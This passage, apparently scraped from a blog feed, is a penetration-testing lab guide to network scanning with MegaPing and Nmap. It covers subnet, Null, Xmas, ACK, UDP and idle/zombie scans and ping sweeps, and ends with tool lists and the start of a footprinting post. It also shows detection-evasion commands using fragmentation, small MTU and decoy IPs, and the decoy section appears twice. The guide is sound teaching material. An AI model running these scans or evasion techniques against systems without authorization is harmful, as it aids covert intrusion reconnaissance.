<h2 class="wp-block-heading" id="perform-traceroute-on-a-target">Perform Traceroute on a Target<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/3-MegaPing.html#perform-traceroute-on-a-target"></a></h2>


<ul class="wp-block-list">
<li>Right-click an IP address, and click <strong>Traceroute</strong>.</li>
</ul>


<p>This action will perform a Traceroute, displaying the number of hops taken by the host machine to reach the target.</p>


<h2 class="wp-block-heading" id="perform-port-scanning-on-the-target-host">Perform Port Scanning on the Target Host<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/3-MegaPing.html#perform-port-scanning-on-the-target-host"></a></h2>


<ul class="wp-block-list">
<li>Next select the <strong>Port Scanner</strong> on the left pane.</li>


<li>Enter the IP address of the target machine under <strong>Destination Address List</strong> section, and click <strong>Add</strong>.</li>
</ul>


<p>This action will list all the ports associated with the target, along with the&nbsp;<strong>port type, keyword, risk, and description</strong>, as shown in the following screenshot:</p>


<figure class="wp-block-image"></figure>


<p>Note: You also can generate a report in HTML file on every scan.</p>


<p><strong>Conclusion</strong>: MegaPing security scanner checks your network for potential vulnerabilities that could be used for a bad actor.</p>


<h1 class="wp-block-heading" id="understanding-the-basics-of-network-scanning-using-nmap">Understanding the Basics of Network Scanning using Nmap</h1>


<p>&nbsp;Nmap (Zenmap is the official Nmap GUI) is a free, open-source(license) utility for network exploration and security auditing.</p>


<p>Nmap is the most popular network-scanning utility, that most of security professionals use during security assessments. It supports various types of network-scanning techniques. During security assessment, you will be asked to perform network scanning using Nmap. Therefore, as a professional ethical hacker or a penetration tester, you will need to be confortable with Nmap to perform a network scan.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Scan a whole Subnet.</li>


<li>Trace all the sent and received packets.</li>


<li>Perform a slow comprehensive scan.</li>


<li>Create a new profile to perform a Null Scan.</li>


<li>Scan TCP and UDP ports.</li>


<li>Analyze hosts details and their topology.</li>


<li>Scanning Techniques:
<ul class="wp-block-list">
<li>TCP Connect Scan</li>


<li>Xmas Scan</li>


<li>ACK Flag Scan</li>


<li>UDP Scan</li>


<li>IDLE Scan</li>
</ul>
</li>


<li>Avoiding Scanning Detection</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Windows server 2012 machine.</li>


<li>Windows 10 machine.</li>


<li>Ubuntu <a href="https://information.rapid7.com/download-metasploitable-2017.html">Metasploitable</a> machine.</li>


<li>Kali Linux machine.</li>


<li>Make sure to <a href="https://www.techrepublic.com/article/how-to-create-multiple-nat-networks-in-virtualbox/">configure</a> properly the network topology on your virtual environment.</li>
</ul>


<p><strong>Note</strong>&nbsp;#0: Since this lab is exclusive on scanning networks, you don’t need to download these specifics machines. Since you have any virtual machine to scan (besides the Kali), you good to go.</p>


<p><strong>Note</strong>&nbsp;#1: You can use whatever Nmap version you prefer. Personally I prefer the CLI version instead of the GUI, is more adaptable to workflow and have a more solid learning curve.</p>


<h2 class="wp-block-heading" id="scan-a-whole-subnet">Scan a whole Subnet<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#scan-a-whole-subnet"></a></h2>


<p>Open the Terminal window and type&nbsp;<code>nmap -h</code>&nbsp;to list all the commands available. Since Nmap have so many options, you can use this&nbsp;<a href="https://nmapcookbook.blogspot.com/2010/02/nmap-cheat-sheet.html">cheat sheet</a>,&nbsp;<a href="https://www.stationx.net/nmap-cheat-sheet/">[2]</a>&nbsp;to view some examples.</p>


<p><code>nmap -O &lt;IP Range&gt;</code></p>


<p>The option&nbsp;<code>-O</code>&nbsp;is related to Operating System Detection.</p>


<p>To specify the IP range you can use two methods:</p>


<p><strong>Wildcard</strong>:&nbsp;<code>nmap -O 10.0.2.*</code></p>


<p><strong>Subnet notation:</strong>&nbsp;<code>nmap -O 10.0.2.1/24</code></p>


<p>Both do the same, with little differentiations, like the subnet notation is a little bit more faster than wildcard.</p>


<p><strong>Run this scan and check out the results.</strong></p>


<p>The Nmap scans the entire network and displays information for all the hosts, along with open ports, device type, details of OS, and so on.</p>


<h2 class="wp-block-heading" id="trace-all-the-sent-and-received-packets">Trace all the Sent and Received Packets<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#trace-all-the-sent-and-received-packets"></a></h2>


<p><strong>Select</strong>&nbsp;one host that you scanned</p>


<p><code>nmap --packet-trace 10.0.2.23</code></p>


<p>By issuing the&nbsp;<code>--packet-trace</code>&nbsp;command, Nmap sends some packets to the intended machine and receives packets in response to the sent packets. It prints a summary of every packet it sends and receives.</p>


<p>The output below show the packets&nbsp;<strong>sent from host to target</strong>&nbsp;and packets&nbsp;<strong>received from target to host</strong>.</p>


<pre class="wp-block-code"><code>...
SENT (4.1431s) TCP 10.0.2.15:35962 &gt; 10.0.2.23:3005 S ttl=43 id=22968 iplen=44  seq=1965204224 win=1024 &lt;mss 1460&gt;
SENT (4.1433s) TCP 10.0.2.15:35962 &gt; 10.0.2.23:4000 S ttl=39 id=51710 iplen=44  seq=1965204224 win=1024 &lt;mss 1460&gt;
SENT (4.1434s) TCP 10.0.2.15:35962 &gt; 10.0.2.23:1503 S ttl=53 id=146 iplen=44  seq=1965204224 win=1024 &lt;mss 1460&gt;
SENT (4.1435s) TCP 10.0.2.15:35962 &gt; 10.0.2.23:1761 S ttl=56 id=27951 iplen=44  seq=1965204224 win=1024 &lt;mss 1460&gt;
...
</code></pre>


<p>Note in the bottom of the output also is shown the open TCP ports:</p>


<pre class="wp-block-code"><code>PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
...
</code></pre>


<h2 class="wp-block-heading" id="identifying-services-with-tcp-null-scan">Identifying Services with TCP Null Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#identifying-services-with-tcp-null-scan"></a></h2>


<p><code>nmap -sN -T4 -A &lt;Target IP address&gt;</code></p>


<p><code>-sN</code>: TCP Null Scan.<br><code>-T4</code>: Timing: (4)Aggressive mode speeds scans up by making the assumption that you are on a reasonably fast and reliable network.<br><code>-A</code>: Enables OS detection, version detection, script scanning, and traceroute</p>


<p>By issuing this command, Nmap sends TCP packets with none of the TCP flags set in the packet. If the scans returns an RST packet, it means the port is closed; If nothing is returned, the port is either filtered or open.</p>


<pre class="wp-block-code"><code>...
53/tcp   open  domain      ISC BIND 9.4.2
| dns-nsid: 
|_  bind.version: 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
|_http-title: Metasploitable2 - Linux
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
...
</code></pre>


<p>As shown above, we can se the piece of the output of the scan, performed on the Metasploitable Linux. Later we can check the versions and type of services running on the open ports. This type of information is very valuable because we can search for vulnerabilities, flaws and so on.</p>


<h1 class="wp-block-heading" id="scanning-techniques">Scanning Techniques</h1>


<p>Nmap comes with various inbuilt scripts that can be employed during a scan process in an attempt to find the open ports and services running on the ports.</p>


<p>Summary of scans that will be performed:</p>


<ol class="wp-block-list">
<li><strong>TCP Connect Scan</strong> uses a normal TCP connection to determine if a port is available.</li>


<li><strong>Xmas Scan</strong> involves sending TCP segments with the all flags sent in the packet header, generating packets that are illegal according to RFC 793.</li>


<li><strong>ACK Flag Scan</strong> involves sending ACK probe packet with random sequence number.</li>


<li><strong>UDP Scan</strong> involves sending a generic UDP packet to the target.</li>


<li><strong>IDLE Scan</strong> involves sending spoofed packets to a target.</li>
</ol>


<h2 class="wp-block-heading" id="1-tcp-connect-scan">1. TCP Connect Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#1-tcp-connect-scan"></a></h2>


<p>This is scan is the most basic of TCP scanning. The connect() system call provided by your OS is used to open a connection to every interesting port on the machine. If the port is listening, connect() will succed, otherwise the port is not reachable. One strong advantage to this technique is that you don’t need any special privileges.</p>


<p>Perform a TCP scan with a normal timing (<code>-T3</code>):</p>


<p><code>nmap -sT -T3 -A &lt;Target IP address&gt;</code></p>


<p><code>-sT</code>: TCP connect port scan (Default without root privilege).</p>


<p>The scan result includes all the open ports, OS Fingerprint result, nbstat result, smb-os-discovery results, smb version, and so on.</p>


<h2 class="wp-block-heading" id="2-xmas-scan">2. Xmas Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#2-xmas-scan"></a></h2>


<p>Xmas Scan sends a TCP frame to a remote device with PSH, URG, and FIN flags set. FIN scans only with OS TCP/IP developed according to RFC 793. The current version of MS Windows is not supported.</p>


<p><strong>Note: The next scan will be on a Firewall-enabled machine (i.e., Windows Server 2012).</strong></p>


<p><code>nmap -sX -T4 &lt;Target IP address&gt;</code></p>


<p><code>-sX</code>: Sets the FIN, PSH, and URG flags, lighting the packet up like a Christmas tree</p>


<pre class="wp-block-code"><code>Nmap scan report for 10.0.2.23
Host is up (0.00040s latency).
All 1000 scanned ports on 10.0.2.23 are open|filtered
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 21.64 seconds
</code></pre>


<p>Nmap returns a result stating that the all ports are&nbsp;<strong>opened/filtered, which means a firewall has been configured on the target machine.</strong></p>


<p><strong>Next, turn off the Firewall on the target machine.</strong></p>


<h2 class="wp-block-heading" id="3-ack-flag-scan">3. ACK Flag Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#3-ack-flag-scan"></a></h2>


<p>The ACK scan never locates an open port. It only provides a “filtered” or “unfiltered” disposition, because it never connects to an application to confirm an “open” state.</p>


<p>This scan initiates ACK scan and displays the port disposition, as show below:</p>


<p><code>nmap -sA -v -T4 &lt;Target IP address&gt;</code></p>


<pre class="wp-block-code"><code>Initiating ARP Ping Scan at 13:18
Scanning 10.0.2.23 &#91;1 port]
Completed ARP Ping Scan at 13:18, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:18
Completed Parallel DNS resolution of 1 host. at 13:18, 0.05s elapsed
Initiating ACK Scan at 13:18
Scanning 10.0.2.23 &#91;1000 ports]
Completed ACK Scan at 13:18, 1.26s elapsed (1000 total ports)
Nmap scan report for 10.0.2.23
Host is up (0.00029s latency).
All 1000 scanned ports on 10.0.2.23 are unfiltered
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.51 seconds
           Raw packets sent: 1060 (42.388KB) | Rcvd: 1001 (40.028KB)
</code></pre>


<p>Attackers send an ACK probe packet with a random sequence number.</p>


<ul class="wp-block-list">
<li>No response means the port is filtered.</li>


<li>Unfiltered response means the port is closed.</li>
</ul>


<h2 class="wp-block-heading" id="4-udp-scan">4. UDP Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#4-udp-scan"></a></h2>


<p>UDP scanning is performed to find any UDP ports on the target machine. If have any to determine their state (Open/Closed).</p>


<p><code>nmap -sU -T5 &lt;Target IP address&gt;</code></p>


<pre class="wp-block-code"><code>...
Not shown: 986 open|filtered ports
PORT      STATE  SERVICE
123/udp   open   ntp
137/udp   open   netbios-ns
389/udp   open   ldap
445/udp   closed microsoft-ds
688/udp   closed realm-rusd
1001/udp  closed unknown
1901/udp  closed fjicl-tep-a
8001/udp  closed vcom-tunnel
16674/udp closed unknown
18818/udp closed unknown
28973/udp closed unknown
30656/udp closed unknown
31109/udp closed unknown
57172/udp open   unknown
...
</code></pre>


<h2 class="wp-block-heading" id="5-idle-scan">5. IDLE Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#5-idle-scan"></a></h2>


<p>IDLE scan is an advanced scan method that performs a truly blind TCP port scan of the target (meaning no packets are sent to the target from your real IP address). Instead, a unique side-channel attack exploits predictable IP fragmentation ID sequence generation on the zombie host to glean information about the open ports on the target.</p>


<p>In this example the zombie will be Windows Server 2012 machine and the target Windows 10 machine using port number 80 (or any port which you want to test).</p>


<p><code>nmap -Pn -p 80 -sI &lt;IP address of the zombie&gt; &lt;Target IP address&gt;</code></p>


<pre class="wp-block-code"><code>Idle scan using zombie 10.0.2.37 (10.0.2.37:80); Class: Incremental
Nmap scan report for 10.0.2.23
Host is up (0.0069s latency).

PORT   STATE SERVICE
80/tcp open  http
MAC Address: 22:44:11:55:66:77 Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.08 seconds
</code></pre>


<p>IDLE scan can be tricky for the first-timers, I recommend try and test out in your own way. I recommend this&nbsp;<a href="https://gbhackers.com/idle-zombie-scan-nmap/">link</a>&nbsp;for any missing information about it. ***</p>


<h2 class="wp-block-heading" id="ping-sweep">Ping Sweep<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#ping-sweep"></a></h2>


<p>Ping sweep is a method that can establish a range of IP addresses which map to live hosts.</p>


<p>Now instead of checking for individual systems, we will check for all the systems alive in the network by performing a ping sweep.</p>


<p><code>-sP</code>: Perform a Ping Only Scan</p>


<p><code>nmap -sP 10.0.2.*</code></p>


<pre class="wp-block-code"><code>Nmap scan report for 10.0.2.1
Host is up (0.0011s latency).
MAC Address: 22:44:99:33:11:55 QEMU virtual NIC)
Nmap scan report for 10.0.2.2
Host is up (0.00084s latency).
MAC Address: 22:44:99:33:11:55 (QEMU virtual NIC)
Nmap scan report for 10.0.2.3
Host is up (0.00097s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.22
Host is up (0.00075s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.23
Host is up (0.00066s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.37
Host is up (0.00051s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.15
Host is up.
Nmap done: 256 IP addresses (7 hosts up) scanned in 2.29 seconds
</code></pre>


<p>Nmap scans the subnet and shows a list of alive systems as shown above. The result might vary in your lab environment.</p>


<h1 class="wp-block-heading" id="avoiding-scanning-detection-using-multiple-decoy-ip-addresses">Avoiding Scanning Detection using Multiple Decoy IP Addresses</h1>


<p>The Nmap command&nbsp;<code>nmap -D RND:10</code>&nbsp;is the decoy option, that lets you scan using multiple decoy IP addresses.</p>


<p>Firewalls and IDS detect normal scanning attempts on the target network. However, you can use the IP address decoy technique to avoid detection.</p>


<p><strong>Before starting this lab, make sure that you have your Windows Firewall on the target turned on.</strong></p>


<h2 class="wp-block-heading" id="ip-fragmentation">IP Fragmentation<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#ip-fragmentation"></a></h2>


<p>Open a new Terminal window on Kali and enter the target IP address (Windows).</p>


<p><code>nmap -f &lt;Target IP Address&gt;</code></p>


<p><code>-f</code>: Used to scan tiny fragment packets.</p>


<pre class="wp-block-code"><code>Nmap scan report for 10.0.2.23
Host is up (0.00074s latency).
Not shown: 979 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.72 seconds
</code></pre>


<p>When the Windows Firewall service is turned on, you can only see the ports opened as shown in the output above.</p>


<h2 class="wp-block-heading" id="perform-maximum-transmission-unit">Perform Maximum Transmission Unit<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#perform-maximum-transmission-unit"></a></h2>


<p>This command is used to transmit smaller packets instead of sending one complete packet at a time.</p>


<p>This scan is very similar to the previous one but with&nbsp;<strong>Maximum Transmission Unit</strong>&nbsp;(<code>-mtu</code>) and&nbsp;<code>8</code>&nbsp;bytes of packets.</p>


<p><code>nmap -mtu 8 &lt;Target IP Address&gt;</code></p>


<p>If everything works, the results should be identical to the previous one.</p>


<h2 class="wp-block-heading" id="decoying-ip-address">Decoying IP address<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/4-Nmap.html#decoying-ip-address"></a></h2>


<p>This command is used to scan multiple decoy IP addresses. Nmap will send multiple packets with different IP addresses, along with your attacker’s IP address.</p>


<p><code>nmap -D RND:10 &lt;Target IP Address&gt;</code></p>


<p>Again, the output is the same as previous outputs but on the target view is very different.</p>


<p>Check the Logs on your Windows Server Firewall and analyze the last scan performed. You also can analyze this information with Wireshark turned on.</p>


<p>Both shows multiple IP addresses along with your real attacker IP address.</p>


<p>&nbsp;<em>Windows Firewall Log: Decoyed IP Address</em></p>


<p>&nbsp;<em>Wireshark: Decoyed IP Address</em></p>


<hr class="wp-block-separator has-alpha-channel-opacity"/>


<p><strong>In conclusion</strong>: Nmap is a very powerful tool for network scanning / network security assessments. Basically the must-have tool on your belt when we talk about Network Security, Ethical Hacking or Pentesting.</p>


<h1 class="wp-block-heading" id="avoiding-scanning-detection-using-multiple-decoy-ip-addresses">Avoiding Scanning Detection using Multiple Decoy IP Addresses</h1>


<p>The Nmap command&nbsp;<code>nmap -D RND:10</code>&nbsp;is the decoy option, that lets you scan using multiple decoy IP addresses.</p>


<p>Firewalls and IDS detect normal scanning attempts on the target network. However, you can use the IP address decoy technique to avoid detection.</p>


<p><strong>Before starting this lab, make sure that you have your Windows Firewall on the target turned on.</strong></p>


<h2 class="wp-block-heading" id="ip-fragmentation">IP Fragmentation<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/5-NmapDecoyIP.html#ip-fragmentation"></a></h2>


<p>Open a new Terminal window on Kali and enter the target IP address (Windows).</p>


<p><code>nmap -f &lt;Target IP Address&gt;</code></p>


<p><code>-f</code>: Used to scan tiny fragment packets.</p>


<pre class="wp-block-code"><code>Nmap scan report for 10.0.2.23
Host is up (0.00074s latency).
Not shown: 979 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.72 seconds
</code></pre>


<p>When the Windows Firewall service is turned on, you can only see the ports opened as shown in the output above.</p>


<h2 class="wp-block-heading" id="perform-maximum-transmission-unit">Perform Maximum Transmission Unit<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/5-NmapDecoyIP.html#perform-maximum-transmission-unit"></a></h2>


<p>This command is used to transmit smaller packets instead of sending one complete packet at a time.</p>


<p>This scan is very similar to the previous one but with&nbsp;<strong>Maximum Transmission Unit</strong>&nbsp;(<code>-mtu</code>) and&nbsp;<code>8</code>&nbsp;bytes of packets.</p>


<p><code>nmap -mtu 8 &lt;Target IP Address&gt;</code></p>


<p>If everything works, the results should be identical to the previous one.</p>


<h2 class="wp-block-heading" id="decoying-ip-address">Decoying IP address<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/5-NmapDecoyIP.html#decoying-ip-address"></a></h2>


<p>This command is used to scan multiple decoy IP addresses. Nmap will send multiple packets with different IP addresses, along with your attacker’s IP address.</p>


<p><code>nmap -D RND:10 &lt;Target IP Address&gt;</code></p>


<p>Again, the output is the same as previous outputs but on the target view is very different.</p>


<p>Check the Logs on your Windows Server Firewall and analyze the last scan performed. You also can analyze this information with Wireshark turned on.</p>


<p>Both shows multiple IP addresses along with your real attacker IP address.</p>


<p>&nbsp;<em>Windows Firewall Log: Decoyed IP Address</em></p>


<p>&nbsp;<em>Wireshark: Decoyed IP Address</em></p>


<h1 class="wp-block-heading" id="windows-scanning-tools">Windows Scanning Tools</h1>


<h2 class="wp-block-heading" id="colasoft-packet-builder">Colasoft Packet Builder<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#colasoft-packet-builder"></a></h2>


<p>Colasoft Packet Builder enables creating custom network packets; users can use this tool to check their network protection against attacks and intruders. Colasoft Packet Builder includes a very powerful editing feature. Besides common HEX editing raw data, it features a Decoding Editor allowing users to edit specific protocol field values much easier.</p>


<p>Users are also able to edit decoding information in two editors &#8211; Decode Editor and Hex Editor. Users can select one from the provided templates Ethernet Packet, ARP Packet, IP Packet, TCP Packet and UDP Packet, and change the parameters in the decoder editor, hexadecimal editor or ASCII editor to create packets. Any changes will be immediately displayed in the other two windows. In addition to building packets,Colasoft Packet Builder also supports saving packets to packet files and sending packets to network.<br>[Free/Paid]<br>https://www.colasoft.com/packet_builder/</p>


<h2 class="wp-block-heading" id="netscantools-pro">NetScanTools Pro<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#netscantools-pro"></a></h2>


<p>NetScanTools Pro is an integrated collection of internet information gathering and network troubleshooting utilities for Network Professionals. Research IPv4 addresses, IPv6 addresses, hostnames, domain names, email addresses and URLs automatically** or with manual tools. It is designed for the Windows operating system.<br>[Trial/Paid]<br>https://www.netscantools.com/</p>


<h2 class="wp-block-heading" id="ip-tools">IP-Tools<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#ip-tools"></a></h2>


<p>IP-Tools consist of multiple individual tools, ranging from basic bandwidth monitoring to spoofing and decoding. You can scan for live hosts, ping scan, simple port scan, whois and so on.<br>[Trial/Paid]<br>https://ip-tools.en.softonic.com/</p>


<h2 class="wp-block-heading" id="angry-ip-scanner">Angry IP Scanner<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#angry-ip-scanner"></a></h2>


<p>Angry IP Scanner is an open-source and cross-platform network scanner designed to scan IP addresses and ports.<br>[Free software]<br>https://angryip.org/</p>


<h1 class="wp-block-heading" id="windows-proxy-tools">Windows Proxy Tools</h1>


<h2 class="wp-block-heading" id="proxy-workbench">Proxy Workbench<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#proxy-workbench"></a></h2>


<p>Proxy Workbench is a unique proxy server &#8211; ideal for developers, security experts, and trainers &#8211; that displays data in real time.</p>


<p>Daisy Chaining of Proxies can make traffic analysis far more complex and most difficult for an eavesdropper to be able to monitor different parts of the Internet.<br>[Free]<br>https://en.freedownloadmanager.org/Windows-PC/Proxy-Workbench.html</p>


<h2 class="wp-block-heading" id="proxy-switcher">Proxy Switcher<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#proxy-switcher"></a></h2>


<p>Proxy Switcher allows you to automatically execute actions according to the detected network connection. Proxy Switcher is for all the anonymous browsing needs. It can be used to avoid all sorts of limitations imposed by various sites. Be that a download site that limits amount of downloads. Or video site works only in a particular country &#8211; more often than not it gets defeated by the anonymous browsing features Proxy Switcher provides.<br>[Trial/Paid]<br>https://www.proxyswitcher.com/</p>


<h1 class="wp-block-heading" id="vpns">VPN’s</h1>


<h2 class="wp-block-heading" id="cyberghost-vpn">CyberGhost VPN<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#cyberghost-vpn"></a></h2>


<p>VPN software that allows you to surf anonymously, access blocked or censored content.<br>[Paid]<br>https://www.cyberghostvpn.com/</p>


<h2 class="wp-block-heading" id="proton-vpn">Proton VPN<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#proton-vpn"></a></h2>


<p>VPN software that allows you to surf anonymously, access blocked or censored content.<br>[Paid]<br>https://protonvpn.com/</p>


<h1 class="wp-block-heading" id="network-discovery-tool">Network Discovery Tool</h1>


<h2 class="wp-block-heading" id="network-topology-mapper">Network Topology Mapper<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/6-WindowsTools.html#network-topology-mapper"></a></h2>


<p>SolarWinds Network Topology Mapper automatically discovers your network and produces a comprehensive network diagram that can be easily exported to MS Office. Network Topology Mapper automatically detects new devices and changes to network topology. it simplifies inventory management for hardware and software assets, addresses reporting needs for PCI compliance and other regulatory requirements.<br>[Trial/Paid]<br>https://www.solarwinds.com/network-topology-mapper</p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>What is Footprinting and Reconnaissance?</title>
		<link>../../../2024/11/18/what-is-footprinting-and-reconnaissance/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 09:08:21 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<category><![CDATA[SQL, Botnets and XSS Attacks Tools and Resources]]></category>
		<guid isPermaLink="false">../../../index.html?p=8838</guid>

					<description><![CDATA[Footprinting (also known as reconnaissance) is the technique used for gathering information about computer systems and the entities they belong to. To get this information, a hacker might use various....]]></description>
										<content:encoded><![CDATA[
<p>Footprinting (also known as reconnaissance) is the technique used for gathering information about computer systems and the entities they belong to. To get this information, a hacker might use various tools and technologies. This information is very useful to a hacker who is trying to crack a whole system.</p>


<p>When used in the computer security lexicon, “Footprinting” generally refers to one of the pre-attack phases; tasks performed before doing the actual attack. Some of the tools used for Footprinting are Sam Spade, nslookup, traceroute, Nmap and neotrace.</p>


<p>Footprinting helps to:</p>


<p><strong>Know Security Posture</strong>&nbsp;– The data gathered will help us to get an overview of the security posture of the company such as details about the presence of a firewall, security configurations of applications etc.</p>


<p><strong>Reduce Attack Area</strong>&nbsp;– Can identify a specific range of systems and concentrate on particular targets only. This will greatly reduce the number of systems we are focussing on.</p>


<p><strong>Identify vulnerabilities</strong>&nbsp;– we can build an information database containing the vulnerabilities, threats, loopholes available in the system of the target organization.</p>


<p><strong>Draw Network map</strong>&nbsp;– helps to draw a network map of the networks in the target organization covering topology, trusted routers, presence of server and other information.</p>


<p># Footprinting basics with Windows command line</p>


<p>The objective of this tutorial is teach the basics of Footprinting methodologies, used for ethical-hackers and pentesters.</p>


<h3 class="wp-block-heading" id="requirements">Requirements<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/1-Windows-CommandLine.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Virtual environment</li>


<li>Windows 8.1/10</li>


<li>Windows Server 2012 or 2016</li>


<li>Basics of networking</li>
</ul>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/1-Windows-CommandLine.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Use ping command to find the IP address of target domain.</li>


<li>Use ping command to emulate the traceroute (tracert command).</li>


<li>Discover the maximum frame size for the network.</li>


<li>ICMP type and the code for echo request and echo reply packets.</li>
</ul>


<h2 class="wp-block-heading" id="commands-used-on-this-tutorial">Commands used on this tutorial<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/1-Windows-CommandLine.html#commands-used-on-this-tutorial"></a></h2>


<h2 class="wp-block-heading" id="ping"><code>ping</code><a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/1-Footprinting-and-Reconnaissance/1-Windows-CommandLine.html#ping"></a></h2>


<p>The ping command sends ICMP (Internet Control Message Protocol) Used to test the reachability of a host on a IP network and measures the travel time for messages sent from the originating host to destinantion target.</p>


